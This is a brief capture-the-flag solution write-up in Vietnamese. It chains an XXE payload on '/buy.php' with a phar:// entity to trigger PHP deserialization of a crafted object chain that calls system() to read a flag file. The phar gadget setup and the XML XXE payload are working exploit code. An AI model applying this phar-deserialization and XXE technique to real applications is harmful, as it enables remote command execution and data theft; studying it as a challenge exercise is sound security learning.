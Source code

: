 # Solution



Kịch bản khai thác:
- Tạo một phar file với metadata chứa instance của class `Database`
```
$d = new Database();
$d -> is_connected = false
$d -> database = new User()
$d -> database -> username = 'to^'
$d -> database -> avatar = new Utils()
$d -> database -> avatar -> a = 'system'
$d -> database -> avatar -> b = 'cat /n1c3_fl4444g_f0r_r3al_h4ck3r'
```
- Upload lên server, lấy được path của file sau đó trigger phar unserialization với XXE ở `/buy.php`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "phar://<path to phar file>"> ]>
<item><name>&xxe;</name><price>9000</price></item>
```